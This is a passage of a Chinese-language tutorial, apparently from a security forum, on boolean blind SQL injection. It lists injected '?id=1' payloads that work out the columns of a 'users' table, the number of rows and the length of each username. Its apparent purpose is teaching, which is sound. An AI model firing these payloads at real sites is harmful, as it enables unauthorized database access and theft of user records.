 知道每个表的长度后，我们再使用和库名一样的方式猜解表名  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-3cd83a85fbee37e9d8aa2cc3fe5f58e1aea001ac.png)  
例如第一个表名称为 emails  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-e32d252cda317ca95b996dae78a7578210d96e40.png)  
知道表（第四个表，长度为五，是 users）的信息后，我们再来猜列的个数，这里可以看到有三个列

```php
?id=1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name = 'users')=3 --+
```

![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-131f3662d96ff0880d876bfe5cb454aaf1df7aba.png)  
再来判断每个列的长度

```php
第一个列长度为2
?id=1' and length((select  column_name from information_schema.columns where table_schema=database() and table_name = 'users' limit 0,1))=2 --+

第二个列长度为8
?id=1' and length((select  column_name from information_schema.columns where table_schema=database() and table_name = 'users' limit 1,1))=8 --+

第三个列长度为8
?id=1' and length((select  column_name from information_schema.columns where table_schema=database() and table_name = 'users' limit 2,1))=8 --+
```

再用同样的方法猜解列的名字，这里以第二个列为例，列名为 username  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-29a973042cce7aa251720c90edcc0104f6d7778f.png)  
下面还是如法炮制，判断列中有多少数据，我们可以使用`count(*)`

```php
?id=1' and (select count(*) from users)=13 --+
```

![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-a58b940b30cee2832e4cc48b6c4f325e95f6f905.png)  
之后再来判断每条数据的长度

```php
第一个数据长度为4
?id=1' and length((select username from users limit 0,1))=4  --+

第二个数据长度为8
?id=1' and length((select username from users limit 1,1))=8  --+

第三个数据长度为5
?id=1' and length((select username from users limit 2,1))=5  --+

...

第十三个数据长度为6
?id=1' and length((select username from users limit 12,1))=6  --+
```
